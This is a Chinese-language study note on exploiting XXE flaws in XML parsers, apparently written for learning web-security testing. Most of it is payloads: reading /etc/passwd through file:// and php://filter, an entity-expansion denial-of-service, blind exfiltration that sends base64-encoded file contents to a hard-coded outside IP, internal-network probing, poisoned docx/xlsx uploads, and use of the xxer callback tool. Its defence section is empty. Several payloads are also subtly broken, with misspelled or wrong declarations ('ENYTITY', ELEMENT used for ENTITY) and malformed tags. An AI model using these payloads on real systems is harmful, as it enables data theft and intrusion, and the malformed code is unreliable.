

# XXE漏洞

> [XML基础](../XML基础.md)

### 一、XXE漏洞简介

1. XXE漏洞：XML外部实体漏洞

2. 成因：在用户输入中添加XML数据，使用应用程序解析这个数据，如果**没有禁用外部实体的加载**，就会导致加载恶意外部文件和代码

3. 危害：任意文件读取、命令执行、内网端口扫描、攻击内网网站

4. 程序处理XML流程：

   > **应用程序**获取数据 → 将数据转换为XML数据发送给**XML生成器** → 通过XML生成器结构化处理得到XML信息传输给**HTTP客户端** → HTTP客户端将数据以HTTP的方式传输给**WEB服务端** → WEB服务端将HTTP请求以XML信息的方式传输给**XML解析器** → 最终将XML信息解析为普通数据传输给**另一个应用程序**
   >
   > 

5. XML：是一种可扩展的标记语言，类似于HTML语言，但是没有固定的标签，所有的标签都可以自定义

   > 1. XML与HTML的区别
   >
   >    HTML：显示数据
   >
   >    XML：传输数据
   >
   > ---
   >
   > ​	2. 简单介绍
   >
   > 
   >
   > > XML中的所有标签必须为双标签
   >
   > ---
   >
   > 
   >
   > 3. DTD
   >
   >    > **DTD**：文档类型定义，用来为XML文档定义语义进行约束
   >    >
   >    > 1. 我们可以把DTD理解为一个模板，用来定义用户自己创建的根元素以及对应的子元素和根元素的合法子元素和属性
   >    > 2. 文档元素必须以我们的DTD为模板，对XML的元素内容进行相应的规范化
   >    > 3. 处理在DTD中定义元素以外，**我们还能在DTD中定义实体**
   >    >
   >    > ---
   >    >
   >    > **DTD的声明方式**：
   >    >
   >    > 1. 内部声明：`<!DOCTYPE 根元素[元素声明]>`
   >    >
   >    >    ~~~xml-dtd
   >    >    <?xml version="1.0" encoding="UTF-8"?>
   >    >    <!DOCTYPE book [
   >    >     <!ELEMENT book (name, author, year)>
   >    >     <!ELEMENT name (#PCDATA)>
   >    >     <!ELEMENT author (#PCDATA)>
   >    >     <!ELEMENT year (#PCDATA)>
   >    >    ]>
   >    >    <book>
   >    >     <name>XML</name>
   >    >     <author>xml</author>
   >    >     <year>2020</year>
   >    >     <price>100.00</price>
   >    >    </book>
   >    >    ~~~
   >    >
   >    > 2. 外部声明：`<!DOCTYPE 根元素 SYSTEM "文件地址">`
   >    >
   >    >    > 本地文件可以使用相对路径
   >    >    >
   >    >    > 外部文件直接使用URL地址即可
   >    >
   >    >    ~~~xml-dtd
   >    >    <?xml version="1.0" encoding="UTF-8" standalone="no"?>
   >    >    <!DOCTYPE book SYSTEM "http://192.168.1.239:80/cdata2.dtd">
   >    >    <book>
   >    >     <name>XML</name>
   >    >     <author>xml</author>
   >    >     <year>2020</year>
   >    >     <price>100.00</price>
   >    >    </book>
   >    >    ~~~
   >    >
   >    > ---
   >    >
   >    > **DTD[实体](https://blog.csdn.net/janchin/article/details/46849209)**
   >    >
   >    > 1. 内部普通实体：
   >    >
   >    >    > 声明：`<!ENTITY 实体名称 "实体值">`
   >    >    >
   >    >    > 引用：`&实体名称;`（在文档元素中引用）
   >    >
   >    >    ~~~xml-dtd
   >    >    <?xml version="1.0" encoding="UTF-8"?>
   >    >      <!DOCTYPE hell
   >    >        <!ENYTITY bar "hikki!">	<!-- 声明 -->
   >    >      ]>
   >    >      <hell>
   >    >    	hello &bar;			<!-- 使用 -->
   >    >      </hell>
   >    >    ~~~
   >    >
   >    >    > PCDATA：被解析的字符数据，表示包含字符或文本数，这些文本将解析器检查实体以及标记。不过，被解析的字符数据不应当包含任何` &`、`<`或者`>`字符，需要使用特定的标识来替换它们【是XML文档默认的格式】
   >    >    >
   >    >    > | 标识     | 符号   | 名称   |
   >    >    > | -------- | ------ | ------ |
   >    >    > | `&lt;`   | &lt;   | 小于   |
   >    >    > | `&gt;`   | &gt;   | 大于   |
   >    >    > | `&amp;`  | &amp;  | 和号   |
   >    >    > | `&apos;` | &apos; | 单引号 |
   >    >    > | `&quot`  | &quot; | 双引号 |
   >    >    >
   >    >    > ---
   >    >    >
   >    >    > CDATA：指不应由XML解析器进行解析的文本数据，CDATA部分的所有内容都会被解析器忽略
   >    >    >
   >    >    > > 格式：`<![CDATA[代码]]>`
   >    >
   >    > 2. 外部普通实体
   >    >
   >    >    * 声明：
   >    >
   >    >      > 方式一：`<!ENETITY 实体名称 SYSTEM "URI/URL">`
   >    >      >
   >    >      > 使用这种方式调用的DTD文件是私有的，由我们自己创建，没有公开发行
   >    >      >
   >    >      > ---
   >    >      >
   >    >      > 方式二：`<!ENETITY 实体名称 PUBLIC "DTD标识名" "公用的DTD的URI">`
   >    >      >
   >    >      > 使用这种方式调用的DTD文件是由每个权威机构制定，供特定行业或公司
   >    >
   >    >    * 作用：读取外部文件
   >    >
   >    >    * 利用：利用外部普通实体与file协议读取敏感文件
   >    >
   >    >      > 读取不包含特殊字符的文件：
   >    >      >
   >    >      > ~~~xml-dtd
   >    >      > <?xml version="1.0" encoding="UTF-8"?>
   >    >      > <!DOCTYPE foo [
   >    >      > <!ELEMENT xxe SYSTEM "file:///etc/passwd">
   >    >      > ]>
   >    >      > <user>
   >    >      > <username>
   >    >      > 	&xxe;		<!-- 在文档元素中使用读取的文件，在返回包中获取数据 -->
   >    >      > <username>
   >    >      > <password>
   >    >      > 	password
   >    >      > <password>
   >    >      > ~~~
   >    >      >
   >    >      > ---
   >    >      >
   >    >      > 读取包含特殊字符的文件（利用PHP伪协议读取）：
   >    >      >
   >    >      > ~~~xml-dtd
   >    >      > <?xml version="1.0" encoding="UTF-8"?>
   >    >      > <!DOCTYPE foo [
   >    >      > <!ELEMENT bar SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/xxetest.txt">
   >    >      > ]>
   >    >      > <hell>
   >    >      > hello &bar;		<!-- 在文档元素中使用读取的文件，在返回包中以base64的格式获取数据 -->
   >    >      > <hell>
   >    >      > ~~~
   >    >
   >    >    * 
   >    >
   >    >    * 
   >    >    
   >    >    * xml规范不允许在普通实体的实体值中调用多个不同的普通实体
   >    >    
   >    > 3. 参数实体
   >    >
   >    >    * 声明：
   >    >
   >    >      > 内部：`<!ENTITY % 实体名称 "实体值">`
   >    >      >
   >    >      > 外部：`<!ENTITY % 实体名称 SYSTEM "URI">`
   >    >
   >    >    * 引用：`%实体名;`

### 二、DDoS攻击

1. DDoS攻击：分布式拒绝服务攻击，由很多攻击方式，这里使用的是一种称为洪水攻击的DDos方式，即攻击者对网络资源发送过量数据导致

2. 利用内部普通实体进行的DDOS攻击：叠加DTD实体进行攻击，即在一个实体内调用多个其它的实体

   ~~~xml-dtd
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE foo [
     <!ELEMENT foo ANY>
     <!ENTITY bar "World ">
     <!ENTITY t1 "&bar;&bar;&bar;&bar;&bar;&bar;&bar;&bar;&bar;&bar;&bar;&bar;&bar;&bar;&bar;&bar;">
     <!ENTITY t2 "&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;">
     <!ENTITY t3 "&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;">
     <!-- 定义时，最多进行3次引用 -->
   ]>
   <foo>
     <!-- 引用时，没有次数限制 -->
     Hello &t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;
   </foo>
   ~~~

### 三、XXE的利用

1. 有回显的XXE：可以直接在页面中看到payload的执行结果或现象

   > 1. 使用file协议读取本地文件
   > 2. DDos攻击

2. 无回显的XXE：不能在页面上查看payload的执行结果

   > 使用外带数据，把数据发送到远程服务器上：通过外部DTD的方式可以将内部参数实体的内容与外部DTD声明的实体内容拼接起来，利用payload从目标主机读取到文件内容后，将文件内容作为url的一部分来请求我们本地监听的端口

   ~~~xml
   <!-- 外部DTD：本地文件为xxe.dtd -->
   <!-- 1. 通过file协议将数据读入内部参数实体 -->
   <!ENTITY % file SYSTEM 'file:///d:/1.txt'>	
   <!-- 2. 使用base64加密的方式读取数据传输给目标主机 -->
   <!ENTITY % file SYSTEM 'php://filter/read=convert.base64-encode/resource=file:///etc/passwd'>
   <!-- 通过外部参数实体将数据传输给目标主机 -->		 <!-- &#37;为%的字符编码 -->
   <!ENTITY % send "<!ENTITY &#37; data SYSTEM 'http://120.79.135.77:1234/?p=%file;'>">
   %send;
   %data;
   ~~~

   ~~~xml
   <!-- 外部DTD的引入 -->
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE foo SYSTEM "http://120.79.135.77/temp/xxe.dtd">
   ~~~

3. 漏洞发现：

   > 1. 请求包中的`Content-Type`为`application/xxe`或`application/json`（将其改为`application/xxe`）
   >
   > 2. 如果站点解析xml（内部普通实体），如果可以解析，则存在xxe漏洞【有回显的XXE】
   >
   >    示例：将向实例代码的数据添加到请求体存在回显的位置上
   >
   >    ~~~xml-dtd
   >    <?xml version="1.0" encoding="UTF-8"?>
   >    <!DOCTYPE root[
   >      <!ENTITY test "---test---">
   >    ]>
   >    <root>
   >    	&test;
   >    </root>
   >    ~~~
   >
   > 3. 再查看是否支持引用外部实体：使用burp上的DNSlog，则存在xxe漏洞【无回显的XXE】
   >
   >    ~~~xml-dtd
   >    <?xml version="1.0" encoding="UTF-8"?>
   >    <!DOCTYPE root[
   >      <!ENTITY test SYSTEM "http://l0m3h4u0t6ftb1avnsn7yc9qlhr7fw.burpcollaborator.net">
   >    ]>
   >    <root>
   >    	&test;
   >    </root>
   >    ~~~
   >
   >    > 

### 四、内网主机探测

1. 若是存在有回显的XXE漏洞，则可以通过查看`/etc/hosts`来查看内网地址

   

2. 若是存在无回显的XXE漏洞，则可以通过查看获取响应包的速度来判断某个ip是否在内网中（如果立即返回，则说明内网中存在这个ip地址）

   ~~~xml-dtd
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE ANY[
     <!ENTITY xxe SYSTEM "http://172.31.1.149">	<!-- 通过该语句的设置来判断该ip是否存在于内网中 -->
   ]>
   <user>
   	<username>
   		&xxe;	<!-- 在存在漏洞的地方引用该语句 -->
   	</username>
   	<password>
   		admin
   	</password>
   </user>
   ~~~

### 五、Java中上传xlsx或docx文件导致xxe漏洞

1. 在将不为空的xlsx文档或docx文档的后缀名改为zip后，其压包中会出现一个名为`[content_Types].xml`的xml文件

   

   我们可以在xml中插入一个外部声明（也可以尝试加载外部实体）
   
   ~~~dtd
   <!DOCTYPE sys SYSTEM "http://120.79.135.77:1234">
   <!-- 写DNSlog的地址也可以 -->
   ~~~
   
   再将zip后缀改为原后缀即可
   
2. 漏洞注入点，一般为上传文件的地方。上传文件后，再在指定ip的对应端口监听即可

### 六、XXE漏洞利用工具

1. 工具地址：[TheTwitchy/xxer: A blind XXE injection callback handler. Uses HTTP and FTP to extract information. Originally written in Ruby by ONsec-Lab. (github.com)](https://github.com/TheTwitchy/xxer)

2. 利用步骤：

   > 1. 将工具放置在公网服务器上
   >
   > 2. 修改工具文件夹下的`ftp.dtd.template`文件
   >
   >    
   >
   > 3. 使用`python xxer.py -H 120.79.135.77 -p 1234`命令运行脚本
   >
   >    > -H：指定接收的ip
   >    >
   >    > -p：指定接收的端口
   >
   >    
   >
   > 4. 复制生成的数据到存在xml漏洞的请求体中
   >
   >    #TODO

### 七、XXE漏洞的防御方式

